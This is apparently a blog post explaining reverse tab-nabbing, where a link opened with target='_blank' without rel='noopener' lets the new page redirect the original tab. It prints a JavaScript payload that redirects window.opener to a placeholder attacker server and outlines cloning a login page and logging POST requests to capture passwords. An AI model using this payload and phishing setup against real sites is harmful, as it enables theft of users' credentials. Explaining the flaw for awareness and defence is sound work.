 [back](/)

### Tab-nabbing attack to stealing creds

Imagine that clicking on the received link from a trusted user is normal =)

Despite all the irony, this behavior is quite typical for ordinary users who do not think about how safe the code of web applications that are open in their browser, in numerous tabs, is written.
This is about **Tab-nabbing** attack. The essence of which is to open a new tab in the victim's browser, the link to which is indicated with html tag **target="_blank"** attribute, but without **rel="noopener nofollow"** tag.

```
<a href="https://anylink.com target="_blank"> GoToAnyLink </a>
```

In this case **something.html** page is opened in the victim's browser with the code:

```
<html>
<script>
if (window.opener) window.opener.parent.location.replace ('http://attacker-server/index.html');
if (window.parent! = window) window.parent.location.replace ('http://attacker-server/index.html');
</script>

Hi dude =)<br>
Check my notes

</html>
```

![Image](/img/tabnabbing/1.png)

Any vulnerable navigation to a new tab in the browser where the code is delimited by the tag **target ="_blank"** will be redirected to the page **http://attacker-server/index.html**.

![Image](/img/tabnabbing/2.png)

At the same time, the attacker can clone the authorization page to the vulnerable page using «httrack» or any similar utility. In this case, unnoticed by the victim, a transition will be made to the tab with the vulnerable site. As a rule, in such cases, the victim enters his username and password, assuming that the timed out session has expired. As a result, the attacker can easily obtain the victim's login and password using a web server with the ability to log POST requests.

![Image](/img/tabnabbing/3.png)

Thus, the attacker receives a username and password from the victim with a minimum set of tools and labor costs. In total for the attack you need: a web server with the ability to log POST requests, a phishing web page for authorization and a payload in the form of an html file

![Image](/img/tabnabbing/4.png)

That's all friends, watch the tabs in the browser and the links you click on =)

Links:
+ [https://hackerone.com](https://hackerone.com/reports/179568)
+ [How to dump post request with python](https://georgik.rocks/how-to-dump-post-request-with-python)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)